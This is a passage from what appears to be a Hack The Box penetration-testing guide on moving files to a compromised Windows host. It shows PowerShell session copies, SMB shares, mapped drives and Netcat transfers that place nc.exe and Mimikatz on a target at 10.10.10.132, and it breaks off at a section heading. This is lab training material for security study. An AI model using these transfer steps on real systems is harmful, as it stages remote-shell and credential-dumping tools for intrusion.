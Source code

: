  ##
 PS C:\htb> Copy-Item -Path C:\Temp\nc.exe -Destination C:\Temp\nc.exe -ToSession $session
 ##
 
 Set-Content
 -----------

 ##
 PS C:\htb> $file = Get-Content C:\Temp\nc.exe -Raw

 PS C:\htb> Invoke-Command -ComputerName 10.10.10.132 -ScriptBlock {Set-Content -Path C:\Temp\nc.exe -value $using:file}
 ##
 
 Copy / xcopy / robocopy
 -----------------------

 ##
 PS C:\htb> xcopy \\10.10.10.132\share\nc.exe nc.exe
 
 PS C:\htb> copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe
 ##

 Map / Mount Drives
 ------------------

 ##
 PS C:\htb> net use Q: \\10.10.10.132\share
 
 PS C:\htb> pushd \\10.10.10.132\share
 
 PS C:\htb> mklink /D share \\10.10.10.132\share

 ##

 ##
 Waheed Nusrat@htb[/htb]$ smbclient //10.10.10.132/share -U username -W domain
 ##

Netcat
------

Netcat is a very versatile tool that also allows file transfers. The target or attacking machine can be used to initiate the connection, which is useful if a firewall prevents access to the target. The commands below both result in Mimikatz being transferred to the target computer.

Connection Initiated by Pentester
---------------------------------

##
victim@target:~$ nc -nlvp 8000 > mimikatz.exe
##

##
Waheed Nusrat@htb[/htb]$ nc -nv 10.10.10.132 8000 <mimikatz.exe
##

Connection Initiated by Target
------------------------------
